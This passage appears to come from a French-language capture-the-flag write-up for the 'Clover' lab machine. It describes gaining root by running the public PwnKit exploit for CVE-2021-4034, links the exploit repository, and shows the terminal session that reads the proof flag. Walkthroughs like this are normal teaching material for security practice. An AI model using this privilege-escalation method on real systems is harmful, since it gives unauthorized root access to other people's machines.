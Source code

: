On obtient alors un shell setuid root à /tmp/shell.

## Kansas City Shuffle

L'autre technique consiste à utiliser l'exploit `PwnKit`. Il faut disposer d'une certaine version de la libc pour que l'exploit fonctionne donc compiler même en statique sur une machine plus récente échouera.

Heureusement comme dis plus tôt je disposais d'une VM équivalente. A vrai dire j'avais même l'exploit `PwnKit` déjà compilé dessus :)

[GitHub - ly4k/PwnKit: Self-contained exploit for CVE-2021-4034 - Pkexec Local Privilege Escalation](https://github.com/ly4k/PwnKit/tree/main)

```bash
asta@Clover:/tmp$ ./PwnKit 
root@Clover:/tmp# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),118(bluetooth),1000(asta)
root@Clover:/tmp# cd /root
root@Clover:~# ls
proof.txt
root@Clover:~# cat proof.txt




             ________________________________________________
            /                                                \
           |    _________________________________________     |
           |   |                                         |    |
           |   |  # whoami                               |    |
           |   |  # root                                 |    |
           |   |                                         |    |
           |   |                                         |    |
           |   |                                         |    |
           |   |     Congratulations You PWN Clover!     |    |
           |   |                                         |    |
           |   |                                         |    |
           |   |    974bd350558b912740f800a316c53afe     |    |
           |   |                                         |    |
           |   |                                         |    |
           |   |                                         |    |
           |   |_________________________________________|    |
           |                                                  |
            \_________________________________________________/
                   \___________________________________/
                ___________________________________________
             _-'    .-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.  --- `-_
          _-'.-.-. .---.-.-.-.-.-.-.-.-.-.-.-.-.-.-.--.  .-.-.`-_
       _-'.-.-.-. .---.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-`__`. .-.-.-.`-_
    _-'.-.-.-.-. .-----.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-----. .-.-.-.-.`-_
 _-'.-.-.-.-.-. .---.-. .-------------------------. .-.---. .---.-.-.-.`-_
:-------------------------------------------------------------------------:
`---._.-------------------------------------------------------------._.---'



// From 0xJin && 0xBush1do! If you root this, tag me on Twitter! @0xJin and @0xBush1do
```

CTF plutôt bien ficelé. Le chemin officiel demandais un peu de recherche manuelle.

*Publié le 14 février 2023*
